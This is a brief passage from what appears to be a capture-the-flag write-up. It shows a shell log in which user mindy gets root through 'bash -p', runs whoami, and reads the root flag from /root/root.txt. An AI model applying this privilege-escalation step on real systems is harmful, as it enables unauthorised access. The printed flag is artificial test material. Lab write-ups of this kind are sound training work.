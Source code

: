 ## Root flag

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
6b4d6ee5878e644dd73e7484a8c68b69
```













































































